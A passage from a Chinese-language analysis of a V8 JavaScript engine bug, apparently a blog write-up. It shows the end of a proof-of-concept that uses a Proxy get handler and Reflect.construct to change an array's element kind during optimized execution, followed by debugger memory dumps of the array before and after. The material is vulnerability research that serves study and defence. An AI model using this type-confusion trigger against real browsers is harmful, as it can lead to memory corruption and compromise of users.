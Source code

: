 ```
}

%PrepareFunctionForOptimization(empty);
%PrepareFunctionForOptimization(f);
%PrepareFunctionForOptimization(main);
main(empty);    // a = [0, 1, 2, 3]
main(empty);    // a = [0, 1, 2]
%OptimizeFunctionOnNextCall(main);
// 当f()的第三个参数为p时，会调用p.prototype来创建新的对象
// 访问属性的时候自然会被handler.get()拦截，也就会跳转到我们设置的get函数
main(p);

```

第一眼看到的内容如下：

1.  `poc`首先设置了属性读取操作的处理器，并在其中定义了会修改了`a`数组类型的操作。
    
2.  接着通过`Reflect.construct(empty, arguments, p)`来触发处理器，属性读取之余修改了数组类型，看一下修改前后的内存布局：
    
    ```
    DebugPrint: 0000002108085EFD: [JSArray]
      - map: 0x0021082417f1 <Map(PACKED_SMI_ELEMENTS)> [FastProperties]
      - prototype: 0x002108208dcd <JSArray[0]>
      - elements: 0x00210808608d <FixedArray[5]> [PACKED_SMI_ELEMENTS]
      - length: 3
      - properties: 0x0021080406e9 <FixedArray[0]> {
         #length: 0x002108180165 <AccessorInfo> (const accessor descriptor)
      }
      - elements: 0x00210808608d <FixedArray[5]> {
                0: 0
                1: 1
                2: 2
              3-4: 0x002108040385 <the_hole>
      }
    
     // 修改前
     0:000> dd 0x00210808608d-1
     00000021`0808608c  080404b1 0000000a 00000000 00000002 // map length 0 1
     00000021`0808609c  00000004                            // 2
    
    ```
    
    ```
    DebugPrint: 0000002108085EFD: [JSArray]
      - map: 0x002108241891 <Map(PACKED_DOUBLE_ELEMENTS)> [FastProperties]
      - prototype: 0x002108208dcd <JSArray[0]>
      - elements: 0x002108086149 <FixedDoubleArray[5]> [PACKED_DOUBLE_ELEMENTS]
      - length: 3
      - properties: 0x0021080406e9 <FixedArray[0]> {
         #length: 0x002108180165 <AccessorInfo> (const accessor descriptor)
      }
      - elements: 0x002108086149 <FixedDoubleArray[5]> {
                0: 1.1
                1: 1
                2: 2
              3-4: <the_hole>
      }
    